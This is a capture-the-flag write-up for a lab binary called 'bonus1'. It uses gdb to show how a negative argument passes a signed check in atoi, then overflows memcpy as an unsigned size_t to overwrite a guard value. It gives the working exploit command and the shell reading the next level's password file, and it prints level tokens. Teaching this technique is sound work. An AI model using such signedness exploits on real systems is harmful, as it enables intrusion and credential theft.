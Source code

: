 # Bonus1 - Exploit signed / unsigned types to bypass checks

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| bonus1 | `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9` |
| bonus2 | `579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute the binary

```shell
~/bonus1
> Segmentation fault (core dumped)

~/bonus1 a
```

It takes a least one parameter.

Lets debug the binary

```shell
(gdb) info functions
0x08048424  main
```

See our assembly interpretation in [source file](../source.c)

The usage is: "./bonus1 (number < 10) string"

We can see the number is evaluated twice. It has to be smaller than 10.
Then this number is multiplied by 4.

The second comparison, just after a `memcpy`, checks the same number equals 1464814662.

The number is stored in `esp+0x3c` and the `memcpy` destination is stored in `esp+0x14`

```shell
gdb-peda$ p 0x3c - 0x14
  $2 = 0x28
gdb-peda$ p/d0x28
  $3 = 40
```

It means there is 40 bits between them.
Unfortunately, we can not write directly more than 36 bytes (9 \* 4) in `memcpy`.

To overwrite the number, we have to write 40 characters + 4 bits for the value `0x574f4c46` => 44 bits.

As `memcpy` takes a `size_t` (unsigned) and `atoi` returns an int, we can use negatives values, to pass the first comparison and then override the number value.

We need 44 chars. Lets cast -44 as unsigned int and divide by 4 the result.

```shell
gdb-peda$ p /u -44
  $4 = 4294967252
gdb-peda$ p /d 4294967252 / 4
  $5 = 1073741813
```

Finally we can build the exploit and get the pass.

```shell
~/bonus1 -1073741813 `python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"'`
$ cat /home/user/bonus2/.pass
  579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

---

## Sources

### C

- [Man atoi](https://linux.die.net/man/3/atoi)
- [Man memcpy](https://linux.die.net/man/3/memcpy)
- [Man execl](https://linux.die.net/man/3/execl)
